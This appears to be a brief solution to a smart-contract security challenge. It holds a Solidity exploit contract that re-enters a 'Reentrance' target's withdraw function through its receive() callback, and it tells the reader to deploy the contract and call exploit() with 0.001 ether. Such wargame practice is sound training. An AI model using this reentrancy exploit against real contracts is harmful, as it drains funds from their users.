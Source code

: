 Deploy the following contract to the same network
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Reentrance {
    function donate(address) external payable;
    function withdraw(uint) external payable;
}

contract Exploit {

    function exploit(address _who) public payable {
        Reentrance(_who).donate{value:msg.value}(address(this));
        Reentrance(_who).withdraw(msg.value);
    }

    receive() external payable {
        if (msg.value <= msg.sender.balance){
            Reentrance(msg.sender).withdraw(msg.value);
        }
    }
}
```
call exploit(), sending 0.001 ether

